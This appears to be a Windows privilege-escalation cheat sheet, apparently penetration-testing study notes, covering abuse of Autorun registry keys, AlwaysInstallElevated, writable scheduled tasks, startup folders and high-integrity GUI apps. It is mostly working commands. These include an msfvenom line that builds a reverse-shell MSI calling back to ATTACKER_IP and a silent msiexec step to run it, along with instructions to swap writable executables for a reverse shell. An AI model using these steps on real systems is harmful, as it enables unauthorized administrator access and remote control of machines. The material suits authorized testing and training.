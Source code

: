 #### Autorun

```bash
#For checking, it will display some information with file-location
reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
reg query HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run
#Check the location is writable
accesschk.exe -wvu "C:\\PATH\\TO\\FILE"  #returns FILE_ALL_ACCESS
#Replace the executable with the reverseshell and we need to wait till Admin logins, then we get shell
```

#### AlwaysInstallElevated

```bash
#For checking, it should return 1 or 0x1
reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated
reg query HKLM\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated

#Creating a reverseshell in msi format
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=PORT --platform windows -f msi -o reverse.msi

#Execute and get shell
msiexec /quiet /qn /i reverse.msi
```

#### Schedules Tasks

```bash
schtasks /query /fo LIST /v  #Displays list of scheduled tasks, Pickup any interesting one
#Permission check - Writable means exploitable!
icalcs "path"
#Wait till the scheduled task in executed, then we'll get a shell
```

#### Startup Apps

```
C:\\Users\\Username\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup
C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\StartUp
```

Startup applications can be found in above locations

Check writable permissions and transfer reverse shell there

The only catch here is the system needs to be restarted

#### Insecure GUI apps

Check the applications that are running from "TaskManager" and obtain list of applications running with high integrity

Open that particular application, using "open" feature enter the following

```
[file://c:/windows/system32/cmd.exe](file://c:/windows/system32/cmd.exe)
```

